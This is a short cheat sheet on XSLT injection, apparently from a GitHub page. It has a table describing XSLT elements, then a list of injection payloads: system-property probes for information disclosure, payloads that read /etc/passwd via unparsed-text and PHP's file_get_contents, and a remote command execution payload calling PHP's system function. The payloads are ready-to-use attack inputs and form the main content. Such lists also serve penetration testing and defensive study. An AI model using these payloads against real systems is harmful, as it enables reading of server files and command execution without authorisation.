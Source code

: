 ## XSLT Injection

### Elements

| `<xsl:template>` | This element indicates an XSL template. It can contain a `match` attribute that contains a path in the XML-document that the template applies to                |
| ---------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `<xsl:value-of>` | This element extracts the value of the XML node specified in the `select` attribute                                                                             |
| `<xsl:for-each>` | This elements enables looping over all XML nodes specified in the `select` attribute                                                                            |
| `<xsl:sort>`     | This element specifies the node to sort elements in a for loop by in the `select` argument. Additionally, a sort order may be specified in the `order` argument |
| `<xsl:if>`       | This element can be used to test for conditions on a node. The condition is specified in the `test` argument                                                    |

### Injection Payloads
#### Information Disclosure
- `<xsl:value-of select="system-property('xsl:version')" />`
- `<xsl:value-of select="system-property('xsl:vendor')" />`
- `<xsl:value-of select="system-property('xsl:vendor-url')" />`
- `<xsl:value-of select="system-property('xsl:product-name')" />`
- `<xsl:value-of select="system-property('xsl:product-version')" />`
#### LFI
- `<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />`
- `<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />`
#### RCE
- `<xsl:value-of select="php:function('system','id')" />`